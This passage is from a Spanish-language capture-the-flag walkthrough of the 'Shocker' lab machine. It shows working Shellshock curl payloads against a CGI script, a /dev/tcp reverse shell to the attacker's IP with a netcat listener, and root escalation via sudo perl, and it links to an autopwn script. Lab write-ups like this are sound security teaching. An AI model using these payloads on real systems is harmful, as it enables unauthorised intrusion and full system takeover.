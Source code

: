 Tampoco no le gusta, así que vamos a introducir un `echo;`:

```bash
❯ curl -H "User-Agent: () { :; }; echo; /usr/bin/whoami" http://10.10.10.56/cgi-bin/user.sh
shelly
```

Ahora si le gustó, ya tenemos ejecución de comando; por lo tanto vamos a tratar de entablarnos una reverse shell, asi que nos ponemos en escucha por el puerto 443:

```bash
❯ curl -H "User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/10.10.14.27/443 0>&1" http://10.10.10.56/cgi-bin/user.sh
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.56] 56042
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly
shelly@Shocker:/usr/lib/cgi-bin$
```

Ya nos encontramos dentro de la máquina y podemos visualizar la flag (user.txt). Para trabajar más cómodos, vamos a hacer un [Tratamiento de la tty](/tratamiento-tty). Ahora vamos a enumerar un poco el sistema para ver una forma de escalar privilegios.

```bash
shelly@Shocker:/home/shelly$ id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/home/shelly$
```

Vemos que podemos ejecutar el recurso `/usr/bin/perl` como el usuario **root**; así que con nuestra página de confianza [GTFOBins](https://gtfobins.github.io/gtfobins/perl/) buscaremos una forma de excalar privilegios.

```bash
shelly@Shocker:/home/shelly$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
root@Shocker:/home/shelly# whoami
root
root@Shocker:/home/shelly#
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).

Se comparte un script autopwn de la máquina [Shocker Autopwn](https://github.com/k4miyo/Shocker-Autopwn).
